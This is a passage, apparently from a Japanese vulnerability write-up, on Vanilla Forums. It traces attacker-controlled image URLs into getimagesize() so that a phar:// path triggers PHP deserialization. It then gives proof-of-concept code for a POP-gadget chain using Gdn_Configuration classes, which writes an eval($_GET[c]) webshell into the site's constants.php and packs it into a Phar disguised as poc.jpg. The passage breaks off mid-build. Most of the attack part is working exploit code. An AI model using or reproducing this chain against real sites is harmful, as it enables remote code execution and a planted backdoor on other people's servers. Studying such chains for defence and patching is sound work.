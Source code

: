 ```php
        if (!is_null(parse_url($srcPath, PHP_URL_SCHEME))) {                    // 6
            return $srcPath;                                                    // 7
        }

    ...

    }
```
次に、`domGetImages`の続きを見ると、`$image = $imageInfo['Src'];`,`getimagesize($image); `で攻撃者によって制御可能な文字列が`getimagesize`に入る！  
したがって、ここに`phar://.../exploit.phar`を指定すればRCEできる！  
Vanillaで使える`Gdn_Configuration`を使ったPOPgadgetを使ってRCEできるらしい。  
```php
    function domGetImages($dom, $url, $maxImages = 4) {

        ...

        // Sort by size, biggest one first
        $imageSort = [];
        // Only look at first 4 images (speed!)
        $i = 0;
        foreach ($images as $imageInfo) {
            $image = $imageInfo['Src'];                                                 // 8

            if (strpos($image, 'doubleclick.') != false) {
                continue;
            }

            try {
                if ($imageInfo['Height'] && $imageInfo['Width']) {
                    $height = $imageInfo['Height'];
                    $width = $imageInfo['Width'];
                } else {
                    list($width, $height) = getimagesize($image);                       // 9
                }
```
以下で`poc.jpg`を作成する。  
これを何らかの方法で対象にアプロードして、そのパスも特定しておく。  
```php
// custom pop chain
class Gdn_ConfigurationSource{
    public function __construct(){
        $this->Type = "file";
        $this->Source = "/var/www/html/conf/constants.php";
        $this->Group = 'a=eval($_GET[c]);//';
        $this->Settings[""] = "";       
        $this->Dirty = true;
        $this->ClassName = "Gdn_ConfigurationSource";
    }
}
class Gdn_Configuration {
    public $sources = [];
    public function __construct(){
        $this->sources['si'] = new Gdn_ConfigurationSource();
    }
}

// create new Phar
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// add our object as meta data
```